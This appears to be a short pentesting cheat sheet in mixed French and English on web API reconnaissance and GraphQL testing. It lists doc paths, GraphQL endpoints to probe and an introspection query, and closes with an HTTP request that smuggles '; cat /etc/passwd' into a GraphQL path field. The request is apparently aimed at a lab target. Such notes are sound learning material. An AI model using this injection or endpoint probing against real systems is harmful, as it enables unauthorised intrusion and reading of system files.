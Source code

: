 # Web API

## standard type

SOAP
RESTful
GrpahQL

## Data Type

XML
JSON

## common content type:

application/json
application/xml 
application/x-www-form-urlencoded 

## Convention

| Convention | Meaning |
-------------------------
| ":" or "{}" | variables |
| "[]" | optional input |
| "||" | possible values that can be used. |
| "< >" | ex. <find-function> Angle brackets represent a DomString, which is a 16-bit string. |

## tools généralement utilisés pour les tests (hors sécu)

Postman
Client http du même langage de programmation
OWASP Zap

## Doc pour la collecte d'info

* https://www.programmableweb.com/
* shodan

### liste de repertoires pour trouver la doc:

/docs
/api/docs
/documentation
/developers/documentation

### liste de sous domaines pour trouver la doc

dev.
api.

### detect graphQL

/graphql
/v1/graphql
/api/graphql
/v1/api/graphql
Attacking GraphQL   291
/graph
/v1/graph
/graphiql
/v1/graphiql
/console
/query
/graphql/console
/altair
/playground

### exemples

#### récupération du shéma (introspection)

```json
{
    "query": "{__schema{queryType{name}}}"
}
```

#### exemple type d'injection GraphQL retournant le fichier /etc/passwd

```sh
POST /graphql HTTP/1.1
Host: 192.168.195.132:5000
Accept: application/json
Content-Type: application/json

{"variables": {"scheme": "http",
"path": "/ ; cat /etc/passwd",
"port": 80, "host": "test.com"},
"query": "mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!)
{\n importPaste(host: $host, port: $port, path: $path, scheme: $scheme)
{\n result\n }\n }"}
```

